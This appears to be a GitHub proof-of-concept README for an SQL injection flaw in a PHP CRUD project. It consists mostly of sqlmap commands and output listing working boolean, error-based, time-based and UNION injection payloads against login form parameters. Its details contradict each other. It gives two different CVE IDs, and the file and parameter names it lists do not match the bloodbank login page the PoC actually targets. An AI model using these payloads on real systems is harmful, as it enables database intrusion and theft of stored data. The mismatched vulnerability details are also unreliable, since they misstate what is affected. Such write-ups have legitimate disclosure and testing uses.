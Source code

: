 # Simple-CRUD-Functionality-SQLi-POC - CVE-2023-48078
+ Exploit Author: esasadam06
# Vendor Homepage
+ https://code-projects.org/simple-crud-functionality-in-php-with-source-code
# Software Link
+ https://download.code-projects.org/details/8e863682-a839-4645-94e0-ae769c83635d
# Overview
+ Simple CRUD Functionality SQLi POC is susceptible to a significant security vulnerability that arises from insufficient protection on the 'title' parameters in the hospitalLogin.php file. This flaw can potentially be exploited to inject malicious SQL queries, leading to unauthorized access and extraction of sensitive information from the database.
# Vulnerability Details
+ CVE ID: CVE-2023-46014
+ Affected Version: Simple CRUD Functionality V1.0
+ Vulnerable File: /add.php
+ Parameter Names: title
+ Attack Type: Local
# References:
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-48078
+ https://nvd.nist.gov/vuln/detail/CVE-2023-48078
# Description
+ The lack of proper input validation and sanitization on the 'title' parameters allows an attacker to craft SQL injection queries, bypassing authentication mechanisms and gaining unauthorized access to the database


# Proof of Concept (PoC) : 
+ `sqlmap -r request.txt --risk 3 --level 3 --dbms mysql --batch --current-db`

```
---
Parameter: hemail (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: hemail=test@test' AND 3778=(SELECT (CASE WHEN (3778=3778) THEN 3778 ELSE (SELECT 9754 UNION SELECT 4153) END))-- -&hpassword=test&hlogin=Login

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: hemail=test@test' OR (SELECT 3342 FROM(SELECT COUNT(*),CONCAT(0x716a7a6b71,(SELECT (ELT(3342=3342,1))),0x7170767a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- NSQu&hpassword=test&hlogin=Login

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: hemail=test@test' AND (SELECT 5639 FROM (SELECT(SLEEP(5)))ulgW)-- QYnb&hpassword=test&hlogin=Login

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: hemail=test@test' UNION ALL SELECT CONCAT(0x716a7a6b71,0x567a4f6f4b556976707668696878754f48514d6e63424a706f70714e6f62684f504a7a565178736a,0x7170767a71),NULL,NULL,NULL,NULL,NULL-- -&hpassword=test&hlogin=Login
---
```
+ `sqlmap -u "http://localhost/bloodbank/file/hospitalLogin.php" --method POST --data "hemail=test@test&hpassword=test&hlogin=Login" -p hpassword --risk 3 --level 3 --dbms mysql --batch --current-db`

```
---
Parameter: hpassword (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: hemail=test@test&hpassword=test' AND 4940=(SELECT (CASE WHEN (4940=4940) THEN 4940 ELSE (SELECT 5623 UNION SELECT 6789) END))-- -&hlogin=Login

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: hemail=test@test&hpassword=test' OR (SELECT 8207 FROM(SELECT COUNT(*),CONCAT(0x716a7a6b71,(SELECT (ELT(8207=8207,1))),0x7170767a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- TrPm&hlogin=Login

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: hemail=test@test&hpassword=test' AND (SELECT 3303 FROM (SELECT(SLEEP(5)))PdPC)-- lTZZ&hlogin=Login

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: hemail=test@test&hpassword=test' UNION ALL SELECT NULL,CONCAT(0x716a7a6b71,0x5271514f636f6f46476f6365424b6e6166454c725751704d6f6c467968626a4e725172785955416d,0x7170767a71),NULL,NULL,NULL,NULL-- -&hlogin=Login
---
```

